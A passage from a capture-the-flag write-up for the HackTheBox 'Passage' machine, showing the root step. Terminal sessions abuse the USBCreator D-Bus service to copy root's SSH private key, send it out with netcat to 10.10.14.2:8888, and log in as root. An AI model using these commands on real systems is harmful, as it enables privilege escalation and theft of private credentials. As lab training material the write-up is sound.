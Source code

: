 ```terminal
nadav@passage:/tmp$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/root_id_rsa true
()
nadav@passage:/tmp$ ls -lsa root_id_rsa 
4 -rw-r--r-- 1 root root 1675 Mar  1 03:28 root_id_rsa
nadav@passage:/tmp$ nc -w 3 10.10.14.2 8888 < root_id_rsa 
nadav@passage:/tmp$ shasum root_id_rsa 
53ce13fd9e4c8bb4e9fce631460b5c9724bbdd5b  root_id_rsa
```

```terminal
farzul@dugisan3rd:/mnt/hgfs/1337/CTF/HackTheBox/Machine/Passage/.ssh$ nc -l -p 8888 > root_id_rsa
farzul@dugisan3rd:/mnt/hgfs/1337/CTF/HackTheBox/Machine/Passage/.ssh$ shasum root_id_rsa 
53ce13fd9e4c8bb4e9fce631460b5c9724bbdd5b  root_id_rsa
farzul@dugisan3rd:/mnt/hgfs/1337/CTF/HackTheBox/Machine/Passage/.ssh$ ssh -i root_id_rsa root@10.10.10.206
Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
root@passage:~# id
uid=0(root) gid=0(root) groups=0(root)
```
![root](/assets/posts/ctf/hackthebox/machines/passage/img/root.png)
_root pwned_

Root flag can be found in `/root/root.txt`.

---